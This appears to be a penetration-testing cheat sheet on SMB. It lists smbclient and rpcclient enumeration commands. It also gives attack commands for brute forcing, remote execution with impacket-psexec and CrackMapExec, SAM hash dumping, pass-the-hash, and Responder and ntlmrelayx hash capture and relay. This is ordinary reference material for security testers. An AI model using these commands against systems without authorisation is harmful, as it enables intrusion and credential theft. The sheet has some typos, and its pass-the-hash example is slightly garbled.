 # SMB

The Server Message Block (SMB) is a client-server protocol that regulates access to files and directories as well as other network resources such as printers and routers. It is mainly used by Windows machines, but there is also the software Samba that makes it available for Linux and Unix.

## SMBClient
__Command:__ ```smbclient <options> //<target>```

### Options
- ```-U```: Specify username
- ```--password=<password>```: Specify password
- ```-N```: Don't ask for password
- ```-L```: Get list of shares available on host  

More options available with ```--help``` flag.

Execute local commands by appending ! to the start of each command.

__Show status:__ ```smbstatus```

## RPCClient
Useful for obtaining further information about an SMB server that could not be found in initial Nmap scan.

__Command:__ ```rpcclient -U "" <target> ```

### Useful commands
- ```srvinfo```: Server information.
- ```enumdomains```: Enumerate all domains that are deployed in the network.
- ```querydominfo```: Provides domain, server, and user information of deployed domains.
- ```netshareenumall```: Enumerates all available shares.
- ``` netsharegetinfo <share>```: Provides information about a specific share.
- ```enumdomusers```: Enumerates all domain users.
- ```queryuser <RID>```: Provides information about a specific use

Brute force user RIDs using the tool ```samrdump.py```.

Alternative tools for obtaining similar information about an SMB server include __SMBMap__, __CrackMapExec__, and __enum4linux-ng__.

## Attacks
### Anonymous authentication
If anonymous authentication is enabled, shares can be accessed with no credentials.

### Brute forcing & password spraying
Brute force using the tools Hydra or Medusa. Perform password spraying using CrackMapExec.

### Remote code execution
PsExec is a tool that can be used to execute processes on other systems without having to install client software manually. It is implemented for Linux as part of the tools __Impacket PsExec__ and __CrackMapExec__.

__Impacket PsExec__   
Command: ```impacket-psexec <user>:<password>@<target>```, where ```user``` and ```password``` belong to a local administrator.

__CrackMapExec__  
Command: ```crackmapexec smb <target> -u <user> -p <password> -x 'whoami' --exec-method smbexec```

### Enumerating logged-on users
Command: ```crackmapexec smb <target> -u <user> -p <password> --loggedon-users```

### Exteract hashes from SAM database
Command: ```crackmapexec smb <target> -u <user> -p <password> --sam```

If a hash cannot be cracked, it can still be used to authenticate over SMB using the technique Pass-the-Hash (PtH). Example command: ```crackmapexec smb <target> -u <user> -p <password> -H <hash>``

### Forced authentication attacks
Create a fake SMB server to capture users' hashes. The most common tool used for this is __Responder__.

Command: ```responder -I <interface name>```

If the hash cannot be cracked, it can be rekayed to another machine using __impacket-ntlmrelayx__ or __Responder MultiRelay.py__. 

Example command using  __impacket-ntlmrelayx__: ```impacket-ntlmrelayx --no-http-server -smb2support -t <target>```. This will dump the SAM database by default, but commands (such as starting a PowerShell reverse shell) can be executed by adding the option ```-c```. Then set up a listener to obtain the reverse shell.